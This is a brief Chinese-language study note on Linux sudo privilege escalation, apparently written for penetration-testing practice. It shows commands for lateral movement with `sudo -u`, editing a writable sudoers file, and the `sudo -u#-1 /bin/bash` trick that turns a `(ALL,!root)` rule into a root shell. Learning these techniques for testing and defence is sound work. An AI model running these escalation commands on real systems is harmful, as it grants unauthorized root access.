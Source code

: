# 关于sudo -l

sudo -l 命令用于检查当前用户在系统上可以通过sudo执行的命令及权限

同时也要注意执行的命令所属用户，并通过-u参数指定用户

```
sudo -u ra1n3 /ls
sudo /ls
```

sudo -l是查看当前用户再/etc/sudoers或/etc/sudoers.d中配置的权限的快捷方式，他不仅显示允许执行的命令，还可能暴露配置细节（如是否需要密码，环境变量是否保留）

/etc/sudoers中的内容

```
(ALL:ALL) ALL 表示可作为任意用户运行任意命令
ra1n3=(ALL:ALL) ALL 表示ra1n3可以以sudo方式执行任何命令
```

如果该文件可读，可以直接查找其他用户的利用权限，

如果可写，则直接修改当前用户的sudo权限即可实现提取。

而-u 参数不仅限于提权到 root，还可横向移动到其他用户。

如已知另一个用户具有更高权限，则可以

```
sudo -u user /bin/bash
```



# 关于(ALL, !root)

```
hacker ALL=(ALL,!root) /bin/bash
```

- 第一个 ALL：可以在任何主机上运行
- (ALL,!root)：可以以除 root 外的任何用户身份运行
- /bin/bash：具体允许的命令

```
sudo -u#-1 /bin/bash
```

- -u 指定运行时的用户

- \#-1 使用 UID（用户 ID）的特殊语法

  - 由于 sudo 处理数字 UID 的方式，-1 被解释为 0

  - UID 0 = root（根用户）
